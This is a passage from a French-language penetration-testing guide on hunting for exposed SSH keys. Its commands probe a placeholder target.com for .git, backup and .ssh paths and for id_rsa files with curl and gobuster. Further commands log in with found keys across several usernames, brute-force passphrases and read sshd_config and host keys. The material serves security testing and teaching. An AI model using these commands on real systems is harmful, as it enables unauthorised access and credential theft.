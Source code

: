 ### Recherche de Clés SSH Exposées

#### Clés dans répertoires web accessibles
```bash
# 1. Recherche dans .git exposé
curl http://target.com/.git/
# Si accessible, chercher des clés dans l'historique

# 2. Répertoires backup web
curl http://target.com/backup/
curl http://target.com/.ssh/
curl http://target.com/keys/

# 3. Fichiers communs
curl http://target.com/id_rsa
curl http://target.com/id_dsa  
curl http://target.com/authorized_keys
```

#### Avec Gobuster pour trouver clés
```bash
# 1. Wordlist spécifique SSH
gobuster dir -u http://target.com -w ssh-keys-wordlist.txt

# Créer wordlist SSH
echo -e "id_rsa\nid_dsa\nid_ecdsa\nauthorized_keys\nknown_hosts\nssh_host_rsa_key" > ssh-keys.txt
gobuster dir -u http://target.com -w ssh-keys.txt
```

### Test des Clés Trouvées
```bash
# 1. Si clé privée trouvée (id_rsa)
chmod 600 found_id_rsa
ssh -i found_id_rsa user@target.com

# 2. Test avec différents users
for user in root admin user; do
    ssh -i found_id_rsa $user@target.com
done

# 3. Si clé avec passphrase
ssh-keygen -f found_id_rsa -y    # Extraire clé publique
# Puis brute force passphrase si nécessaire
```

## 🕵️ Phase 5 : Techniques Avancées

### SSH Configuration Analysis
```bash
# 1. Si accès obtenu, examiner la config
cat /etc/ssh/sshd_config

# Éléments sensibles à chercher :
# PermitRootLogin yes
# PasswordAuthentication yes  
# PermitEmptyPasswords yes
# X11Forwarding yes
# AllowUsers/DenyUsers

# 2. Clés host du serveur
ls -la /etc/ssh/ssh_host_*
```
